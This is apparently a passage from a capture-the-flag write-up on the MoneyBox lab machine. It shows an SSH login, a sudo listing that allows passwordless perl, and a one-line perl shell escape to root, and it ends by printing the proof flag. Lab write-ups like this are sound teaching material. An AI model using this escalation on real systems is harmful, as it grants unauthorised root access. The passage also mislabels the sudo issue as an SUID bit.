```
renu@MoneyBox:/home/lily/.ssh$ ssh -i id_rsa lily@192.168.167.230
Warning: Identity file id_rsa not accessible: No such file or directory.
The authenticity of host '192.168.167.230 (192.168.167.230)' can't be established.
ECDSA key fingerprint is SHA256:8GzSoXjLv35yJ7cQf1EE0rFBb9kLK/K1hAjzK/IXk8I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.167.230' (ECDSA) to the list of known hosts.
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80
lily@MoneyBox:~$ 
```

### Privilege Escalation

#### Misconfigured Sudo privileges

Let's check what commands `lily` can run with `root` privileges without needing a password.

```
lily@MoneyBox:~$ sudo -l
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

We can use this misconfigured SUID bit to escalate our privileges.

We can find the this payload on [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo).

![6](https://github.com/user-attachments/assets/8f5d4d78-47e4-44b7-a3b3-eae0841acf19)

```
lily@MoneyBox:~$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
```

We are now the `root` user.

### proof.txt

We can now `cat` the `proof.txt` flag.

```
# cat /root/proof.txt
d3bb5fd708d3c15c5d4603dbcde69053
```
